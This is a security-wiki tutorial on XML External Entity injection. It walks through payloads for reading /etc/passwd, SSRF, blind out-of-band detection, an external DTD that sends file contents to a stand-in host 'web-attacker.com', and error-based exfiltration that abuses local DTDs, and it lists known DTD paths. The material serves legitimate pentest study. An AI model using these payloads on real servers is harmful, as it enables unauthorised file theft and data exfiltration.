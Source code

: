 ```yaml
---
description: Injecting Entities into XML data to read local files and exfiltrate data
---
```


# XML External Entities (XXE)

{% embed url="https://portswigger.net/web-security/xxe" %}
Source of most examples on this page
{% endembed %}

## XML

Extensible Markup Language (XML) is a common data format for defining structures of data that can be nested. The basics are very simple, HTML is basically XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

It also allows variables called "entities" to be defined and used throughout the document. These are defined in the Document Type Definition (DTD) using a `<!ENTITY` tag. After that, they can be used anywhere in the document using the `&[name];` syntax:

{% code title="Example of XML Entities" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE document [ <!ENTITY something "381"> ]>
<stockCheck><productId>&something;</productId></stockCheck>
```
{% endcode %}

## External Entities

This becomes more dangerous when we introduce **External Entities**. These can reference local files or remote URLs:

{% code title="Example of a local file" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

{% code title="Example of a remote URL" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://127.0.0.1/endpoint?key=value"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
{% endcode %}

These become exploitable when an attacker can inject such entities into a document that will be parsed by the server, and then the result is returned in the response. You could easily read a local file like this, or make any GET request by the server (SSRF).&#x20;

## Blind XXE

In some cases, the document you send to the server is not directly returned back to you, only parsed by the server. All hope is not lost, as there are still various different techniques to make it exploitable.&#x20;

These can be easily detected with out-of-band detection. Tools like [`interactsh-client`](https://github.com/projectdiscovery/interactsh) can set up a domain that listens for DNS and HTTP requests, and you can send this domain as an external entity to see if a callback happens:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### External DTDs

The goal of most XXE injections is to exfiltrate a local file. Using entities, we can load a file into a variable, and we can make a DNS/HTTP request to any fixed URL. But we can combine the two with External DTDs, which allow the **nesting** of entities using special "parameter entities". You can recognize these by the `%` percentage sign during definition and are used with the `%[name];` syntax.&#x20;

This allows us to define a `file` entity, and then put this entity into the URL of another entity. Once these are used anywhere in the document, the contents of the file are put in the URL and the request is made:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
{% endcode %}

The catch is that External DTDs need to be, well, **external**. This means they cannot be inside of your initial payload and must be fetched from a local file or a remote URL. An attacker can host the file above, and then create the XXE injection attack with the following payload:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

### Error Based

A server might be hardened so that it cannot make random outgoing connections to your attacker's website, either to fetch the External DTD or to exfiltrate the file contents. In this case, two new techniques can be combined to still exfiltrate local files.&#x20;

An application might return details about an error when something goes wrong during the parsing of the XML document. One such error would be if it cannot find the local file specified in the entity. We can abuse this by defining a `%file;` entity again, and then using the file contents in the **path** of another entity, showing those contents in an error message:

{% code title="malicious.dtd" %}
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
{% endcode %}

{% code title="Example response" %}
```java
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
{% endcode %}

Now you might be thinking, how do we load that external entity if outgoing connections are blocked? And this is where the second technique comes in.&#x20;

On many systems, there are **existing** XML **DTDs** that can be repurposed by us attackers to do something similar to what you see above. One simple example is the \
`/usr/share/xml/fontconfig/fonts.dtd`\
file with the following content:

{% code title="fonts.dtd" %}
```xml
<!ENTITY % expr 'int|double|string|matrix|bool|charset|langset
      |name|const
      |or|and|eq|not_eq|less|less_eq|more|more_eq|contains|not_contains
      |plus|minus|times|divide|not|if|floor|ceil|round|trunc'>
[...]
<!ELEMENT test (%expr;)*>
```
{% endcode %}

The danger here is that an attacker can define this `%expr;` variable **before** it is defined here, and only the first definition will be used. From here, the attacker can escape the context using `)>` to add their own entities as if it were an external DTD that they control:

```xml
<!DOCTYPE message [
    <!-- Define the file path -->
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!-- Overwrite the %expr; entity to inject our error-based entities -->
    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    <!-- Load the local DTD now that it is set up -->
    %local_dtd;
]>
<message></message>
```

The payload needed will depend on what variables you can overwrite, and the context they are in. Template payloads on 5 different example contexts can be found here:

{% embed url="https://github.com/GoSecure/dtd-finder/blob/2c69ee0be7ab62dd470f0057799577d887782ead/src/main/kotlin/EntityTester.kt#L139-L223" %}
5 different context escapes using local DTDs
{% endembed %}

Here are a few more paths where you might find an existing exploitable DTD:

<details>

<summary>Wordlist (<a href="https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/">source</a>)</summary>

```
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

</details>

This technique will allow you to again get the file contents in the error message, without needing any outgoing connection to your server.&#x20;

## XSLT Injection

{% embed url="https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations" %}
A similar technique using transformation language to read/write files and execute code
{% endembed %}

## PHP

In case the library loading XML is written in [php.md](../../languages/php.md "mention"), it maybe benefit from features such as PHP Wrappers, combined with the confusing flags in `libxml` can make for complex chains with different types of entities and edge cases. See the writeup below for details:

{% embed url="https://swarm.ptsecurity.com/impossible-xxe-in-php/" %}
Exploiting PHP libxml with seemingly correct protection flags
{% endembed %}
